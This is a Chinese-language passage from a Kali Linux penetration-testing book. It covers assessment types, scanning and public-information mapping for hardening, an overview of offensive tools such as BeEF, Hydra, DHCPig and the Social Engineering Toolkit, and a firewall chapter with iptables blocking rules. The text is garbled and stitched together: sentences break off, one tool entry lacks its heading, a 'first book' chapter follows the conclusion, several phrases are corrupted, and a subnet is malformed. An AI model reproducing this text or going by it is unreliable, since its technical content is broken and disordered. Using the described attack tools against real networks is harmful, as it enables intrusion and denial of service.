- 使用加密安装，因为它会保护你物理机器上的数据。作为额外措施，创建一个解密密钥，将其发送到你完成评估后将机器所在地的地方，并销毁你手中的解密密钥。这样，即使设备被盗，你所有的数据将是安全且加密的。
- 提前计划好你在评估期间需要的所有工具和软件包。在评估期间，你很可能无法访问互联网。因此，从一开始就随身携带所有软件包。
- 此外，在开始评估之前检查你的网络设置。检查分配给你的 IP 地址连接的服务，并重新检查你的 DHCP 设置。

记住这几点将帮助你在安全评估期间和之后确保一切都处理得顺畅。

## 不同类型的安全评估

当你的 Kali Linux 准备就绪后，是时候决定要在你的网络上进行何种类型的安全评估了。不同类型的安全评估大致可以分为四类：漏洞评估 (Vulnerability Assessment)、合规性渗透测试 (Compliance Penetration Test)、传统渗透测试 (Traditional Penetration Test) 和应用程序评估 (Application Assessment)。

这里将为你简要介绍所有不同类型的评估。但首先，你需要明确理解什么是漏洞 (Vulnerability) 和利用 (Exploit)。

## 什么是漏洞 (Vulnerability)？

它基本上是网络中的缺陷，攻击者利用它可以损害系统的机密性、完整可用可用。

## 什么是利用 (Exploit)？

它是一种软件，当被使用时，可以利用特定的漏洞。在实践中，利用需要强制运行进程执行非预期操作。

现在，有了这些定义，以下是不同类型评估的概述：

## 漏洞评估

在漏洞评估中，你需要创建一个简单的清单，列出目标环境中发现的所有漏洞。你最可能使用自动化工具来识别监听的服务、服务器软件、版本等。

完成后，你将检查每项内容是否存在已知的潜在威胁签名。这些签名包含了广泛的数据点组合，包括但不限于：

- 操作系统版本：未接收安全补丁的过旧操作系统更有可能有漏洞。
- 补丁级别：许多时候，即使发布了安全补丁，管理员也没有安装到系统中，使其变得更加脆弱。
- 处理器架构：取决于系统基于什么架构（Intel x86、Intel x64、ARM、UltraSPARC），网络可能面临不同的漏洞。
- 软件版本：某些软件版本存在黑客可以用来入侵原本安全系统的漏洞。

你的工作是利用这些数据点创建一个签名，作为漏洞评估的一部分。现在，正如你可以想象的，拥有的数据点越多，创建的签名就越准确。

## 合规性渗透测试

接下来是合规性渗透测试。这是最常见的渗透测试类型，因为它们使用了政府和行业强制的要求，并基于特定组织使用的合规框架。


现在，正如你可以想象的，有很多特定行业的合规框架。一个非常著名的例子是 `PCI DSS` - 支付卡行业数据安全标准，它是处理零售交易的支付卡公司使用的合规框架。

在进行合规测试时，你可能首先要从漏洞评估开始，因为它将满足大多数合规框架的要求。

## 传统渗透测试

与之前的评估类型不同，传统渗透测试不从范围定义开始。它通常会专注于一个目标 - 为了

例如，你可能需要模拟一种情况，展示当内部用户被攻破时，网络会有多少部分受到损害。

因此，这类测试的重点不在于发现和记录系统内部的漏洞。相反，它们专注于某些已识别出的问题，并模拟如果发生这种情况时可能出现的最坏情况。

从技术上讲，情况可能会变得复杂。你不仅要发现漏洞，还必须通过利用程序（`exploit`）来跟踪其影响，然后探索利用程序提供的访问级别，从而最终判断它是否可能导致针对目标环境的进一步攻击。

你必须对你的目标环境进行批判性审查，除了使用工具和漏洞扫描器外，还要诉助于手动搜索和跳性思维。这通常需要执行几次，以确保无一遗漏。

通常，这类评估可以分为不同的阶段，在每个阶段，你需要使用不同的工具进行信息收集、漏洞发现、利用、横移动（`pivoting`）和数据外泄、报告等。

## 应用评估 (Application Assessment)

之前的评估涉及测试整个目标环境，而应用评估要求你将所有资源集中在单个应用程序上。随着越来越多的机构关注其关键任务应用，这正逐渐成为一种极其流行且重要的安全评估。

现在，应用评估可以通过多种方式进行。例如，你可以使用特定应用程序的自动化工具来发现应用程序中的潜在漏洞和安全问题。这类工具使用特定的应用程序逻辑来识别未知问题，而不是依赖于任何已知的签名。因此，这些工具对应用程序如何工作和运行有内置的理解。

此外，取决于应用评估的需求，你可能被要求以黑盒或白盒的方式进行测试：

### 黑盒应用评估 (Black Box Application Assessment)

在这里，工具将与应用程序进行交互，而无需超出标准用户所能体验的范围的特殊知识或深度访问。这可以帮助你理解黑客如何从外部破解应用程序。

### 白盒应用评估 (White Box Application Assessment)

这与之完全相反，工具或评估人员将获得源代码的完全访问权限，以及对运行应用程序的平台的管理访问权限。这种测试有助于对所有应用功能进行全面审查。

那么，你应该使用哪种类型的应用评估呢？嗯，这取决于评估的目标！如果你想知道应用程序受到针对性外部攻击时的最坏情况是什么，那么运行黑盒评估最有意义。相反，如果你对识别尽可能多的安全问题感兴趣，白盒方法将是首选。

白盒和黑盒评估之间也存在混合评估的空间，但正如我们所说的，这完全取决于你想实现什么目标。

## 本章学到的知识

- 为安全评估准备 Kali Linux。使用纯净安装系统或专门的预配置 Kali Linux 安装系统的重要性。
- 漏洞（`vulnerability`）与利用/渗透（`exploitation`）之间的区别。
- 什么是漏洞评估？
- 何时进行合规性渗透测试和传统的渗透测试？
- 什么是应用评估？
- 黑盒评估和白盒评估的益处。

# 第 12 章

## 服务器与网络扫描 - 如何发现并加固网络漏洞

扫描你的网络和服务器非常重要。你可能认为每个人（特别是从事网络工作的专业人士）对连接到系统的所有设备和端口了如指掌，但事实并非总是如此。此外，例行扫描有助于识别系统上的未经授权的用户，这有助于加强安全性。

既然如此，让我们讨论一下如何在 Kali Linux 上扫描你的服务器和网络，以确保一切运行正常。

## 提出正确的问题 (Asking the Right Questions)

你的网络并非所有部分都同等地脆弱，这意味着你需要优先考虑并关注最易受黑客攻击的区域。这要求你像黑客一样思考，并搜索网络中最容易攻破的区域。

这里我们汇总了一系列问题，可以为你提供方向，让你知道从何处入手：

- 系统中哪些部分最容易被黑客利用？
- 哪些部分包含了关键信息，如果被获取将会如何？
- 网络中哪些区域是你不怎么熟悉的区域？

通过关注这些点，你将对在哪里进行扫描有良好的思路。下一步是列出黑客可能利用的常用切入点，这包括：

- 路由器 (`Routers`)
- 交换机 (`Switches`)
- 防火墙 (`Firewalls`)
- 邮件服务器、文件服务器和打印服务器
- 连接到系统的 PC、工作站、平板电脑等
- 系统的操作系统，包括服务器和客户端
- 与系统关联的应用和数据库

等等。

这些是黑客最常见的切入点，因此你应该进行多次测试以确保它们安全并加固。然而，尽管如此，连接到系统的设备越多，漏洞就越多，这意味着你需要花费更多的时间资源来检查它们。

## 像黑客一样思考 (Thinking Like A Hacker)

加强系统安全的关键方面之一是像要入侵你系统的黑客一样思考。无论你是系统所有者，还是受雇保护系统的专业人员，获取管理权限会让你忽视网站的漏洞。

大多数黑客在尝试入侵系统之前会进行手动研究以收集有关系统的信息。因此，如果你能限制这些敏感信息的公开访问，将对增加网站安全性起到巨大作用。

你需要做的第一件事是访问搜索引擎，开始收集有关你业务的信息，看看普通人可以获取什么。

你可以从在 `Google` 上进行关键词搜索开始。然而，黑客会执行高级搜索以寻找更敏感的信息。因此，如果你想掌握主动，你还需要准备并充分了解黑客可以使用所有信息。

以下是你可以在网上搜索以查看哪些是公开信息的：

- 与业务相关的人员联系方式 - 使用搜索引擎如 `USSearch`、`ZabaSearch` 等
- 公司重大变更的新闻稿，包括技术采用、公司合并等。
- 在线 `SEC` 文档。
- 在线专利或敏感文件。

黑客可以搜索这些信息并利用它们破解你的系统。然而，如果你能提前搜索这些信息，如果你已经知道了大多数黑客可能使用哪些信息来利用你的系统。了解用于策划网络攻击的信息对于缓解攻击非常有帮助。

## 创建公开信息地图 (Create A Map Of Publicly Available Information)

一旦你识别了网络中的薄弱环节以及黑客可能利用它的最主要信息，就可以开始

保护事物并使其更加安全。首要任务是为你网络上可用的敏感信息创建一张地图。

网络及相关公开信息的图型化表示将帮助我们更好地理解网络结构，这可以帮助我们轻松找到所有的链接，以及在被利用时可能发生的潜在问题。网络的可视化也是发现系统或网络为用户或黑客留下足迹的极佳方法。

要开始这个过程，你需要访问 `Whois` 网站，从那里你可以查询到网站的域名注册商，以及网站所有者的个人信息，包括他们的姓名、电子邮件地址等等。

`Whois` 还可以提供与特定域名相关的 `DNS` 服务器信息以及与其技术支持相关的信息。你可能想查看 `DNSstuf`，你可以在那里找到许多关于你域名的信息，包括：

- 关于关宿主机如何处理该域名的电子邮件的信息。
- 托管服务器的位置。
- 黑客可以使用的关于域名注册商的通用信息。
- 是否存在该域名的垃圾邮件主机。
- 以及其他等。

现在，`Whois` 只是提供此类信息公开访问的网站之一。因此，检查关于你自己的信息是一个好主意，以了解黑客正在使用什么来入侵你的系统。

除了 `Whois` 外，你也可以在 `Google` 论坛和小组中搜寻，你可能会在那里找到关于你系统和网络的类似有用信息。事实上，你可能会对这些页面上大量的收集信息感到惊讶，尽管这些信息并不是由你提交的。

某人（包括你的员工）可能发布过涉及你公司的看似无害的消息或帖子，但其中可能包含黑客可以用来入侵你系统的线索和信息。

然而，尽管这构成了安全隐患，但发现并中化这种威胁就像使用你的域名或公司名称进行快速搜索一样简单。如果你发现了敏感信息，可以请求从网站将其删除，或者在你那边采取适当行动，以防止其被利用。

## 加固所有薄弱环节和漏洞

遵循上述所有步骤后，你应该能够发现大量黑客可能利用来入侵你系统的有用信息。现在是时候关闭所有这些漏洞并确保你的网络安全了。

### 第一步

首先，如前所述，你需要浏览互联网以找到关于你的托管提供商、IP 地址等的公开可用敏感信息。然而，没有理由认为所有这些信息都是正确的。你可以自己进行扫描以验证这些信息的真实性。

如果它们是错误的，那么就不必担心，因为黑客会被引向一场徒劳的。但如果它们是正确的，你可以请求网站将其删除。但请注意，删除关于你网站的 `Whois` 信息可能会在信任度和某些 `SEO` 指标方面对你的业务产生影响。

### 第二步

现在是时候扫描你的内部主机，看看网络的哪些部分对用户是可见的。黑客很有可能来自网络内部，要么作为你服务的用户，要么通过一个受攻击的员工账户。

一旦你了解了所有暴露给用户的网络区域，你就可以加倍小心确保它们得到良好的保护。此外，确保你的员工遵守严格的协议，不要丢失他们的安全凭据。作为额外的安全措施，你可以强制他们每两个月左右更改一次密码。

### 第三步

接下来，你可能想检查系统的 `ping` 实用程序。可以使用像 `SuperScan` 等第三方工具轻松处理，它甚至可以帮助你一次 `ping` 多个地址。

### 第四步


最后，我们建议对你的系统进行外部扫描，检查所有开放且易受网络威胁的端口。`SuperScan` 在这方面也能提供帮助。或者，你可以使用像 `Wireshark` 这样的工具。不言而说，一旦你检测到漏洞端口，就是时候加固它以防止任何恶意攻击了。

现在，在遵循了所有扫描和基础预防措施后，你将在试图入侵你网络的黑客手中占据主动。你将知道我们的 IP 地址正在发送什么信息，因此对于黑客在尝试拦截信号时可能会看到什么信息会有想法。

正如之前讨论的，所有这些扫描的基本点是培养对黑客将使用哪些信息作为攻击基础的理解。因此，所有这些扫描的关键点在于加固所有这些漏洞，或者准备一个一旦你的网络通过你发现的薄弱环节发生突破时立即启动的行动计划。

然而，尽管如此，仅仅对网络进行一次彻底扫描并置之不管是不明智的。事实上，你需要制定一套常规流程，跟踪你的网络及其变化情况。

随着时间的推移，你的网络和系统将会发生变化，安全担忧将从一个区域转移到另一个区域。黑客将一直寻找这些漏洞，所以你需要保持警惕。

## 在本章中我们学到了

- 发现网络中脆弱的区域
- 了解黑客将如何攻击
- 使用工具对网络
- 进行恶意攻击进行扫描

# 第13章：Kali Linux 工具

在上一章中，我们讨论了特定的方法和心态。现在我们将关注更实用的主题——不同的工具。

事实上，如果你在网上搜索一下，你会发现数以百计的工具可以帮助我们。这就是为什么我们列了一些最佳工具。我们还确保包含了特定类别的替代方案，以便你完全没有

在你的网络内部。它还附带了一个非常直观的 GUI，这使其对新手非常友好且易于使用。

现在来看功能方面，该工具提供了许多实用的功能，如数据实时捕获、离线分析、全协议检查、Gzip 压缩与解压缩、VoIP 分析等。你还可以使用该工具来帮助你解密 WPA/WPA2、SSL/TLS、IPSec 等协议。

## Aircrack-ng - 无线安全工具套件

通过 `Aircrack-ng`，你将获得一套完整的工具，帮助你评估你的网络 WIFI 安全性。所有包含的工具都是基于命令行的，这意味着你可以进行深度的脚本编写。

`Aircrack-ng` 提供的一些显著工具可以帮助你捕获数据包并将其导出到文本文件中以便由第三方工具处理。此外，你还可以获得攻击工具，这些工具可以帮助你进行重放攻击、创建伪造访问点、执行包注入并协助身份验证攻击。

## Kismet Wireless - 无线局域网分析器、嗅探器和 IDS

`Kismet` 是安全专家在寻找无线局域网分析、嗅探器、车载攻击（Wardriving）工具和无线入侵检测框架时的首选之一。该工具具有多平台兼容性，几乎适用于任何无线网卡。

该工具可以用于 WiFi 接口、蓝牙接口、软件定义无线电硬件以及其他一些专用捕获硬件。在功能方面，它可以帮助你识别无线客户端、检测无线入侵等。你甚至可以配置它在你运行其他工具进行评估时在后台运行。

## John The Ripper - 密码学测试工具

`John The Ripper` 是市场上最快的密码破解密码学工具之一。从一开始，该工具就一直用于帮助用户检测弱的 Unix 密码，并由于其高速度和卓越性能而获得了广泛关注。

密码解密方法会根据检测到的算法自动设置。该工具还对字典攻击提供专门支持，并带有定义自定义字典列表的选项。暴力攻击也可以用你自己的规则集进行自定义。

## BeEF - 浏览器利用框架

`Browser Exploitation Framework`（也称为 `BeEF`）是一种强大且流行的渗透测试工具，最用于扫描浏览器中的漏洞和弱点，然后利用宿主机中的这些漏洞。该工具主要侧重于测试桌面和移动浏览器的安全性。因此，你将获得特定的模块，这些模块将帮助你实时审计浏览器安全性。

该工具的一些主要显著特征包括专用 Web 用户界面、功能方面的模块化结构、`Metasploit` 集成、强大的历史记录和情报收集、进程间通信和利用等。此外，作为一个浏览器利用框架，该工具可以帮助你检测浏览器上安装的任何插件。

## Yersinia - L2 攻击

`Yersinia` 是一个专门用于不同网络二层攻击的安全框架。它可以扫描网络所用安全协议中的缺陷和漏洞以寻找攻击点。该工具支持广泛的网络协议，包括 `CDP`、`DHCP`、`DTP`、`ISL`、`HSRP`、`STP` 和 `VTP`。

你将获得一个精美的 GTK 图形界面，可以在其中控制所有功能。它的一些显著功能包括专门的护士模式、读取自定义配置文件的选项、调试模式、支持保存日志文件以保存所有结果和数据等。

## DHCPig - DHCP 耗尽应用

`DHCPig` 是一个动态主机配置协议（`DHCP`）耗尽工具。它可以帮助你对网络创建并启动高级攻击，耗尽局域网上的所有 IP，限制新用户获取 IP，并利用网络释放任何 IP。作为锦上添花的一点，该工具甚至可以使用 ARP 让所有 Windows 主机离线。

一旦执行该脚本，它会首先获取邻居 IP 并监听来自任何连接客户端的 DHCP 请求。如果它检测到提议（offer），该工具将响应该提议。它还可以循环从所有不同的主机和 MAC 地址发送 DHCP 请求，检测邻居 MAC 和 IP 地址并将其从 DHCP 服务器中释放等等功能。

## THC Hydra - 用于暴力破解远程身份验证服务

接下来是 `THC Hydra` - 这是一个免费的黑客工具，可以帮助你启动暴力攻击来破解远程身份验证服务。该工具支持 50 多种协议，使其非常适合测试任何类型服务器环境的密码安全性。

该工具以其极快的密码破解速度、在多个操作系统上运行的能力、启动多个并行暴力攻击的选项等而闻名。此外，作为一个基于模块的应用程序，它提供了添加自定义模块以扩展其功能的选项。

## Metasploit Framework - 渗透测试套件

`Metasploit Framework` 可以帮助你针对远程主机创建、测试和执行漏洞利用程序。它让你可以使用整套渗透测试工具，并配合一个强大的基于终端的控制台—— `msfconsole`，帮助你定位目标、启动扫描、利用任何漏洞并收集所有可用数据。

事实上，它是市场上最强大的安全审计工具之一，由于它是免费的，它是你应该拥有的。该工具的显著特性包括网络枚举和发现、漏洞的开发和执行等。

## FunkLoad - Web 压力工具

通过 `FunkLoad`，你将获得一个基于 python 的强大功能性测试器。它可以帮助你模拟浏览器，并带有 Cookie 等真实的浏览器功能。如果你正在分析 Web 项目性能，它是完美的。

在功能方面，该工具可以帮助你进行 Web 功能测试和回归测试。其他显著特性包括为了发现 bug 的压力测试等。

## SlowHTTP - 用于 HTTP 服务器的压力应用程序

`SlowHTTPTest` 是目前最著名的应用层攻击 模拟器。它是可配置的，可以帮助你延长 HTTP 连接以模拟 DoS 攻击。它非常适合测试你的服务器，或者只需测试它可以处理多少并发连接。

该工具还会生成每次测试有用的统计数据，因此你可以获得有用的信息。一旦测试完成，它会将所有统计和指标保存在 HTML 或 CSV文件中，你可以将其用于展示或进一步分析。该工具的其他显著特性包括代理重定向。

## Inundator - 多线程基于队列的入侵检测规避安全工具

`Inundator` 是一个多线程、基于队列的入侵检测误报生成器。此外，由于集成了 TOR，它是完全匿名的，非常适合测试入侵检测或防御系统。它可以通过每秒生成一千多个误报来直接冲刷安全系统。

使用该工具生成的所有误报使用了非常糟糕的模式匹配规则。因此，如果系统检测到很少或没有误报，说明它是基于编写良好的规则。而如果它成为数百个误报的受害者，那么你应该考虑在网络中采用基于启发的检测或基于异常的检测机制。

## Social Engineering Toolkit

`Social Engineering Toolkit` 是另一个强大的渗透测试框架，拥有各种工具可以帮助你只需点击即可创建并执行社交工程攻击。如果你想利用强大的社交工程技巧和手段黑入社交网络账户，它是完美的。

你将获得工具，可以帮助你进行基于 WiFi 的攻击，重定向或拦截与你在同一 WiFi 网络的用户的数据包。此外，你还将创建短信、电子邮件和网页伪欺及钓鱼攻击。该工具甚至可以让你创建恶意的 `.exe` 文件，在用户运行后将破坏他们的系统。

## OpenVAS - 漏洞扫描工具

`OpenVAS` 是一款可以帮助检测任何本地或远程网络漏洞的免费软件。它还可以帮助你直接在 OpenVAS 平台上编写、创建和集成自定义的安全插件。此外，该平台还允许你访问超过五万个 NVTT（网络漏洞测试），这些测试可以扫描系统中的几乎任何漏洞。

现在让我们来看看该软件的一些显著特性：你可以选择执行同步主机发现、网络映射和端口扫描、访问 OpenVAS 传输协议、与 SQL 数据库和 SQLite 的全量集成、自动计划扫描等功能。

## Nikto - 帮助进行全 Web 服务器扫描

`Nikto` 设计用于作为某些漏洞扫描工具（包括 `OpenVAS`）的补充软件。它可以帮助你对 Web 服务器进行全量扫描，以定位系统/网络中的漏洞和缺陷。扫描结果极其全面，可以收集有关不安全文件、应用程序模式、过时的服务器软件、文件名（默认）、任何软件配置错误等信息。


你可以用它同时扫描 Web 服务器上的多个端口。此外，它还带有 IDS 规避技术、以各种格式输出结果的选项、针对 Apache 和 cgiwrap 的用户名枚举等更多功能。该工具甚至可以帮助你扫描 CGI 目录、使用根据需求自定义的配置文件、调试输出，并通过标头、favicons 和图标识别软件。

## WPScan - WordPress 安全性审计工具

众所周知，WordPress 是最流行的 CMS 平台，驱动着全球范围内超过 30% 的网站。因此，包含一个可以帮助审计网站 WordPress 安全性的 Kali Linux 工具显然是有意义的。通过 WPScan，你可以扫描并检测你的 Web 项目是否免受某些类型攻击的侵害，以及其核心文件、插件或主题暴露了多少敏感信息。

该工具还可以帮助你扫描所有注册用户使用的弱密码，并模拟暴力破解以查看密码是否容易被破解。其他显著特性还包括执行非侵入式安全扫描的选项、WP 用户名枚举以及计划 WordPress 安全扫描。

## CMSMap - 针对所有流行 CMS 的集中安全解决方案

与仅用于 WordPress 网站的安全工具 WPScan 不同，CMSMap 是一个集中的多平台安全解决方案，设计不仅适用于 WordPress，还适用于 Joomla、Drupal 和 Moodle。

该工具可以通过运行暴力破解、扫描漏洞以及启动利用程序来破解发现的漏洞，帮助你找到上述所有 CMS 上的安全缺陷。该工具还帮助你设置自定义用户-agent 和标头，带有对 SSL 的支持、用于调试目的的专用详细模式等。

## 选择正确的工具并强化你的网络安全

如你所见，Kali Linux 与市场上一些最优秀的伦理黑客和渗透测试工具兼容。不仅如此，你还可以获得全系列不同的以安全为中心的工具，它们也可以在各个方面为你提供帮助。

这些工具可以轻松帮助你快速扫描网络中的所有安全漏洞，并在黑客有机会利用它们之前修复它们。

## 我们在本章中学到的东西

- Kali Linux 以其工具集而闻名。
- 它拥有 600 多种渗透工具。
- `Nmap` - 用于扫描网络。
- `Fierce` - 它帮助你进行网络映射和端口扫描。
- `Unicornscan` - 用于收集信息，并提供扫描 UDP 和 TCP 的能力。
- `Wireshark` - `Wireshark` 是一款跨平台网络分析器。
- `Aircrack-ng`: 它是一款无线安全软件。它带有大量的选项和其他小型工具。
- `Kismet Wireless` - 另一个实用的无线工具，用于嗅探器、IDS 和局域网分析。
- `John The Ripper` - `John the Ripper` 是一款流行的密码学工具，也用于破解。
- `BeEF` - 它是一个浏览器漏洞利用框架（Browser Exploitation Framework），是一种用于寻找利用和漏洞的渗透测试工具。
- `Yersinia` - 该工具用于 L2 攻击。
- `DHCPig` - 该工具用于进行高级网络攻击。
- `THC Hydra` - 用于暴力破解远程身份认证。
- `Metasploit framework` - 流行的渗透测试套件。
- `FunkLoad` - 一个用于测试浏览器的 Web 压力工具。
- `SlowHTTPtest` - 用于对 HTTP 服务器发起 DOS 攻击。
- `Inundator` - 一种多线程 IDS 规避安全工具。
- `Social Engineering Toolkit` 社交工程工具包 - 让你只需点击几次即可发起社交工程攻击。
- `OpenVas` - 是一种网络漏洞扫描工具。
- `WPScan` - 这是一个 WordPress 安全审计工具。
- `CMSMap` - 针对流行 CMS 的集中安全解决方案。

## 结论

Kali Linux 是第一渗透测试工具。如果你对安全或一般的黑客技术感兴趣，那么 Kali Linux 是你应该学习的内容。希望你发现这本书很有用。这本书也适用于热衷 Linux 生态系统并想要学习不同发行版的人。

这本书教了你如何利用 Kali Linux 的优势。我们还涵盖了其他重要主题，如网络安全、黑客过程和 Debian 包管理。我们的重点很快转向了 Kali Linux 的细节，我们在那里学习了如何配置 Kali Linux。我们还学习了

在第一书中，我们已经收集了关于该操作系统的信息。本书将阐明什么是渗透，以及该操作系统中的不同功能，这些功能将让你更容易黑入系统。

其中包含了 Kali Linux 的以下任务和活动：

- **信息收集 (Information Gathering)**：这包括了关于目标系统及其网络的信息。这些任务可以为你提供目标系统正在使用的硬件类型、操作系统和服务的答案。你将了解目标系统的哪些部分可能是敏感的。你将提取运行系统中所有活动目录的列表。你可以使用不同的工具来实现此操作。
- **Web 应用分析 (Web Application Analysis)**：在这项任务中，你将识别 Web应用程序中的缺陷和漏洞。这些信息将帮助你提前修复缺陷，因为 Web应用程序在互联网上公开可用，可以被利用来攻入主系统。这是任何黑客的目的。恶意的黑客或破解者将使用这种方法入侵系统，以提取敏感信息或数据。
- **漏洞分析 (Vulnerability Analysis)**：这可以帮助你理解本地系统或远程系统是否存在最常见的漏洞。执行漏洞扫描的工具拥有巨大的数据库，可以将系统与已知漏洞进行匹配。当伦理黑客识别出不同的漏洞时，他们可以建议组织对其数据库和系统进行必要的更改。破解者将利用这些信息入侵系统并盗取信息，然后利用这些信息损害组织。
- **数据库评估 (Database Assessment)**：数据库攻击在攻击者中非常常见且流行，它们包含了从 SQL 注入到攻击凭据的一系列攻击。可以帮助检测此类攻击向量的工具可以在此 Kali Linux 套件中找到。请记住，每个组织都会将其数据存储在后端的数据库中。
- **无线攻击 (Wireless Attacks)**：无线网络很容易被发现，因此是攻击者的最爱目标。Kali Linux 套件支持多个无线网卡，因此可以用于对网络进行攻击和渗透测试。黑客可以使用该操作系统了解更多网络信息。他们可以学习未激活的路由。这些攻击将使黑客更容易识别出不活跃的路由器或交换机。
- **密码攻击 (Password Attacks)**：攻击者的另一个最爱是身份验证系统。该套件包含了在线破解密码以及攻击哈希系统的工具。黑客可以使用键盘记录器和其他密码破解机制来访问人的系统或账户。如果你看过电影《新十一盗劫》，你可能看到蕾哈娜是如何黑入安全工程师的系统的。她使用键盘记录器查看他的击键记录以找到密码。
- **逆向工程 (Reverse Engineering)**：逆向工程活动可用于多个目的。在进攻活动方面，它可以帮助你识别漏洞并利用实体的开发。在防御优势方面，你可以用它评估系统在针对性攻击期间是否植入了恶意软件。
- **嗅探与欺骗 (Sniffing and Spoofing)**：攻击者始终可以利用网络中传输的数据。该套件包含了用于嗅探网络数据的工具以及用于欺骗的工具，这些可以帮助你在网络上伪装成别人。这两种工具结合使用可能非常危险且强大。我们将在书中详细讨论这一点。
- **利用工具 (Exploitation Tools)**：当你利用先先已知的漏洞时，你可以利用它获取对远程系统或设备的访问。这种访问可以升级，以对本地机器或同一网络上的所有其他机器进行大规模攻击。你将在该套件中找到工具，它们会让你的生活变得非常简单并帮助你编写自定义的利用程序。
- **后利用工具 (Post Exploitation Tools)**：在获得远程系统或设备的访问权限后，下一个重要步骤是维持一段时间的访问，直到你完成任务。此 Kali 套件包含了可以帮助此类活动的工具。
- **报告工具 (Reporting Tools)**：渗透测试的结论是报告发现的结果。该套件拥有帮助收集数据并作为输入发送到其他软件的工具。
- **取证 (Forensics)**：Kali 防火墙的各种方法非常方法。
- **系统服务 (System Services)**：Kali Linux 套件包含了可以帮助你修改后台系统服务的工具。

## 第一章：Kali 中的防火墙

在系列的第一书中，我们将简要介绍 Kali 防火墙。鉴于我们将深入让 Kali Linux 系统成为渗透测试工具，我们将涵盖配置防火墙的基本信息。防火墙的需求因网络和用户而异。为了在 Kali Linux 中配置 Netfilter，你可以使用 `iptables` 和 `ip6` 命令。区别在于 `iptables` 命令用于配置 IPv4 规则，而 `ip6` 命令用于配置 IPv6 网络规则。你需要学会如何使用这些工具，因为我们认为 IPv4 和 IPv6 网络栈在未来还会存在很久。除了使用这些命令外，还有一个名为 `fwbuilder` 的图形化工具，可以用图形化方式配置防火墙规则。你可以选择你任何熟悉的方法来配置 Kali 防火墙。

## Netfilter 的行为

Netfilter 中有四种表。这些表存储了数据包的操作类型。


## Netfilter 表

- `Filter`（过滤）：此表包含过滤数据包的规则。规则定义了数据包是被接受、拒绝还是简单忽略。
- `NAT`：`NAT` 代表网络地址转换。此表负责翻译源目的地址和包端口。
- `Mangle`（修改）：所有对 IP 数据包的其他更改都存储在此表中。这包括 `TOS`（服务类型）字段和其他字段。
- `Raw`（原始）：此表允许你在数据包进入系统之前对其进行任何手动修改。

在上述每个表中都有规则列表，称为链。防火墙将利用这些链来管理数据包。Linux 管理员可以创建标准链之外的新自定义链，但这些链只有在标准链将包重定向到自定义链时才会被使用。

### `filter` 表使用的链列表

- `INPUT`（输入）：该链处理从外部源发往防火墙的数据包。
- `OUTPUT`（输出）：该链处理从防火墙发往外部源的数据包。
- `FORWARD`（转发）：该链处理通过防火墙的数据包。防火墙既不是数据包的源地址，也不是目的地。

### `NAT` 表中的链列表

- `PREROUTING`（路由前链）：该链在数据包进入系统时立即对其进行修改。
- `POSTROUTING`（路由后链）：该链在数据包准备离开系统的途中对其进行修改。
- `OUTPUT`（输出）：该链修改防火墙本身生成的数据包。

下图展示了 Netfilter 链是如何被运用的。



每个链都定义了一系列规则规则。这些规则由一组条件和动作组成，当所有条件都满足时，系统将执行相应的动作。当数据包进入或离开系统时，防火墙会逐条规则地让其通过每一个链。当数据包满足任何规则定义的条件时，它将按照该规则定义的动作执行并处理该数据包。此时，链的过程将被中断，因为防火墙已经决定了需要对数据包进行什么操作。

## Netfilter 动作

- `ACCEPT`（接受）：此动作通过数据包并允许其前往应该去的地方。
- `REJECT`（拒绝）：此动作将拒绝数据包并抛出一个名为互联网控制消息报协议（ICMP）的数据包错误。
- `DROP`（丢弃）：此动作将丢弃或忽略数据包。
- `LOG`（日志）：此动作使用 `syslog` 守护进程记录带有数据包描述的消息。此动作不会中断数据包的处理。数据包将移动到链中的下一条规则规则。这就是为什么如果一个被记录的数据包也可以被拒绝，则它同时需要 `LOG` 规则和 `REJECT`/`DROP` 规则。

日志记录通常包含以下参数：

- `--log-level`（日志级别）：该参数有一个默认值 `a warning`（警告），它表示 Syslog 的严重程度。
- `--log-prefix`（日志前缀）：使用此参数可以在日志消息中添加特定的文本前缀，这将帮助你将其与其他系统日志区分来。
- `--log-TCP-sequence`, `--log-TCP-options`, `--log-IP-options`：所有三个参数都可以用于向日志消息添加额外数据。这些额外数据将包含 TCP 序列号、TCP 选项和 IP 选项。

- `ULOG`：此动作使用 `ulogd` 守护进程记录消息。`Ulogd`相比 `syslogd` 的优势在于它更擅长处理大量消息。此外，注意此动作不会中断链。数据包会被传递到链中的下一条规则。当执行此动作时，数据包也会被记录。
- `chain_name`（链名）：此动作将数据包跳转到定义的链，并通过其规则对其进行评估。
- `RETURN`（返回）：此动作将中断当前链对数据包的处理，并将数据包返回到调用链。如果处理数据包的当前链是标准的，则没有调用链。在这种情况下，数据包被称为默认动作。此默认动作是使用 `iptables` 中的 `P` 选项定义的。
- `SNAT`（源地址转换）：此动作仅在 `nat` 表可用。此动作对数据包应用源网络地址转换（SNAT）。有相应的选项来定义应用于数据包的精确动作。其中一些选项是 `--to-source address: port`，它将为数据包定义新的源 IP 地址和端口。
- `DNAT`（目的地址转换）：此动作也仅在 `nat` 表可用。此动作对数据包应用目的网络地址转换（DNAT）。有相应的选项来定义应用于数据包的精确集合。其中一些选项是 `--to-destination address`。
- `MASQUERADE`（伪装）：此动作仅在 `nat` 表可用。此动作对数据包应用伪装（源地址转换）。
- `PORT`（端口转发）：此动作仅在 `nat` 表可用。此动作将数据包重定向到端口。
- `REDIRECT`（重定向）：此动作仅在 `nat` 表可用。此动作将数据包重定向到本地端口。

你可以使用 `-s address` 或 `-s network/mask` 条件来根据源地址匹配数据包。同样地，你可以使用 `-d address` 或 `-d network/mask` 条件来根据目的地址匹配数据包。

如果你想选择来自特定网络接口的入站数据包，可以使用 `-i interface` 条件。同样，如果你想选择从特定网络接口出的出站数据包，可以使用 `-o interface` 条件。

`--state` 条件用于匹配数据包的状态。只要安装了 `ipt_conntrack` 内核模块，该功能即可生效。

数据包的连接状态如下：

- `NEW`：表示数据包正在启动一个新连接。
- `ESTABLISHED`：意味着数据包已经匹配一个现有的连接。
- `RELATED`：匹配的数据包正在启动新连接，且该连接与已有的连接相关。这对于在执行 FTP 协议操作时与 FTP 数据相关的连接非常有用。

`iptables` 和 `ip6tables` 可以配合许多选项，这些选项可以通过实践和使用逐渐掌握。然而，一个需要记住的良好选项是阻止来自特定 IP 或网络的恶意网络流量。

例如，如果来自 IP `11.2.1.6` 和 `30.72.50/24` 类子网有恶意流量，可以使用以下命令。

```bash
iptables -A INPUT -s 11.2.1.6 -j DROP
iptables -A INPUT -s 30.72.50/24 -j DROP
iptables -n -L INPUT
```

Chain INPUT (policy ACCEPT)

| target | prot | opt | source | destination |
| :--- | :--- | :--- | :--- | :--- |
